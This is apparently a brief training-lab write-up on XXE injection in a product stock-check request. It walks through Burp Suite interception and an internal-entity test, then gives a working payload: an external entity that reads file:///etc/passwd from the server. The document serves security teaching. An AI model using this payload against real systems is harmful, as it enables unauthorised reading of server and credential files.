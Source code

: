 ```yaml
---
custom_edit_url: null
sidebar_position: 1
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/b67ddaa8-bbc8-435e-abf3-50a4ad678885)

Let's check the stock of one of the products.

![2](https://github.com/Knign/Write-ups/assets/110326359/8bbca8be-bc9e-44a9-9b9d-d6a38a0b9cbe)

Since we are proxying the requests through Burp Suite, we can go to `Proxy > HTTP History` to view the request.

![3](https://github.com/Knign/Write-ups/assets/110326359/a65909cd-a35b-41dc-8f1d-20265a2582df)

We can see that the request contains an XML entity.

Let's forward this request to the `Repeater` for further modification.

Once in the `Repeater` tab, declare the following internal entity after the XML prologue:

```
<!DOCTYPE test 
[<!ENTITY test "test_entity">]
>
```

And reference the entity within the `<productId>` tag as follows:

```
<productId>
	&test;
</productId>
```

![4](https://github.com/Knign/Write-ups/assets/110326359/285f522c-71fb-493b-99f6-ba9e9a78c9d3)

The response includes out `test` entity. This tells us that the application is vulnerable to XXE.

Now, in place of the internal entity, declare the following entity:

```
<!DOCTYPE test 
[<!ENTITY test SYSTEM "file:///etc/passwd">]
>
```

![5](https://github.com/Knign/Write-ups/assets/110326359/b83bab00-1fa5-41a0-8642-cf15931bd8ef)

We have solved the lab.

![7](https://github.com/Knign/Write-ups/assets/110326359/9cacdcbe-d0f5-4eee-abb5-b0533d426082)
